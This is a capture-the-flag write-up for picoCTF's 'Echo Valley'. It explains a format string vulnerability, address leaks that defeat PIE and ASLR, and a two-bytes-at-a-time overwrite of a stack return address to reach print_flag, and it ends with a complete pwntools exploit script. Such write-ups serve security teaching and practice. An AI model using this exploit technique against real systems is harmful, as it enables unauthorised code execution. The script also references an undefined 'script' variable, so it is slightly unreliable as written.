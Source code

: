 # Description

The echo valley is a simple function that echoes back whatever you say to it.But how do you make it respond with something more interesting, like a flag?Download the source: [valley.c](https://challenge-files.picoctf.net/c_shape_facility/3540df5468ae2357d00a7a3e2d396e6522b24f7a363cbaff8badcb270d186bda/valley.c)Download the binary: [valley](https://challenge-files.picoctf.net/c_shape_facility/3540df5468ae2357d00a7a3e2d396e6522b24f7a363cbaff8badcb270d186bda/valley)

Additional details will be available after launching your challenge instance.

# Solution

Reviewing the code for this one it seems we are dealing with a format string vulnerability, however this will require a series of steps to gain RCE since this binary is fortified with some protections like stack canary, pic, relro and NX.

```c
printf("You heard in the distance: ");
printf(buf);
```

Since we are inside an infinite loop, we can have unlimited arbitrary reads and writes, and the plan will be something similar to:

1. Get a leak to bypass ASLR
2. Calculate the real address of print_flag
3. Overwrite something to get RCE and redirect execution to print_flag

## Getting a reliable leak

First as explained in PIE Time 2 we can use a string format vulnerability to get an arbitrary read from memory, after debugging the binary we noticed that in position 21 we get a leak to a return address in the stack.

![Pasted image 20250307144913.png](./attachments/Pasted%20image%2020250307144913.png)

This matches the address for main+18.

![Pasted image 20250307144929.png](./attachments/Pasted%20image%2020250307144929.png)

We send a string format with that position using the shouting function and judging by the 12 LSB we are getting the same offset.

![Pasted image 20250307145038.png](./attachments/Pasted%20image%2020250307145038.png)

## Calculating the real address of print_flag

Now that we have a leak we just need to know the offset of main we are getting as a return address, according to radare2 this is at offset 0x1413.

![Pasted image 20250307145240.png](./attachments/Pasted%20image%2020250307145240.png)

We can calculate the base address for the valley binary and get the address of the print_flag function by adding its offset.

![Pasted image 20250307145356.png](./attachments/Pasted%20image%2020250307145356.png)

## Arbitrary write to gain code execution
One neat thing about format string vulnerabilities is that you can also perform arbitrary writes anywhere in memory (of course taking into consideration NX). Now that we have a foothold, we can start looking for feasible addresses to overwrite to gain RCE, one of the obvious ones is to use the GOT and PLT tables, unfortunately this binary was built with full RELRO meaning that the GOT table is ready only. 

Since that is not possible we are going to try to overwrite a return address in the stack directly, this however posses another challenge: we don't know the address range of the stack ... yet!

Checking the stack during execution time in GDB reveals something similar to the following layout.

![Pasted image 20250307170124.png](./attachments/Pasted%20image%2020250307170124.png)

It seems we leak several addresses of the stack but the one we are interested is the one before our return address at 0x7ff3ac7e08, this return address if followed by a value 0x2 in the stack, we were able to replicate the same behavior in a second execution ...

![Pasted image 20250307170945.png](./attachments/Pasted%20image%2020250307170945.png)

We use the same technique as our first step and discover that a stack address is leaked in position 20.

![Pasted image 20250307171004.png](./attachments/Pasted%20image%2020250307171004.png)

Now we almost have all the pieces we need to gain code execution, one thing we still need to sort out is the limited buffer of just 100 chars, this means we can't write big values such as the one required for 64 bits since printf uses the total number of bytes printed.

To get around this we are going to overwrite 2 bytes at a time, in the next image we see the return address changed to print_flag.


![Pasted image 20250307183234.png](./attachments/Pasted%20image%2020250307183234.png)

Once we redirect execution we are able to get the flag ...

![Pasted image 20250307183601.png](./attachments/Pasted%20image%2020250307183601.png)

Full py script ...

```python
#!/usr/bin/python
# -*- coding: latin-1 -*-

from pwn import *
import sys

def send_payload(payload):
    r.sendline(payload)
    return r.recvall()

def hunt():
  r.recvuntil(b'Welcome to the Echo Valley, Try Shouting: \n')
  r.sendline("%21$p") #25
  r.recvuntil(b'You heard in the distance: ')
  leak = r.recvline().decode().rstrip('\n')
  win_offset = int(leak,16)-0x1aa
  last_bytes = win_offset & 0xffff
  print('{:#x}'.format(win_offset))
  print('{:#x}'.format(last_bytes))
  r.sendline("%20$p") #25
  r.recvuntil(b'You heard in the distance: ')
  leak = r.recvline().decode().rstrip('\n')
  stack_leak = int(leak,16)-0x8
  print('{:#x}'.format(stack_leak))
  context.clear(arch = 'amd64')
  payload = fmtstr_payload(6, {stack_leak: last_bytes}, write_size='byte')
  r.sendline(payload)
  win_offset = win_offset >> 16
  print('{:#x}'.format(win_offset))
  last_bytes = win_offset & 0xffff
  print('{:#x}'.format(last_bytes))
  payload = fmtstr_payload(6, {stack_leak+0x2: last_bytes}, write_size='byte')
  r.sendline(payload)
  win_offset = win_offset >> 16
  print('{:#x}'.format(win_offset))
  last_bytes = win_offset & 0xffff
  print('{:#x}'.format(last_bytes))
  payload = fmtstr_payload(6, {stack_leak+0x4: last_bytes}, write_size='byte')
  r.sendline(payload)

if __name__ == '__main__':
  context.terminal = ['tmux','splitw','-v']

  binary="./valley"
  host, port = "localhost 50959".split()

  if len(sys.argv) > 1:
    r = remote(host,int(port))
  else:
    log.info("For remote: %s remote" % sys.argv[0])
    r = gdb.debug([binary,b'AAAAAAAA'],gdbscript=script, env={"LD_PRELOAD":""})
  hunt()
  ```
  
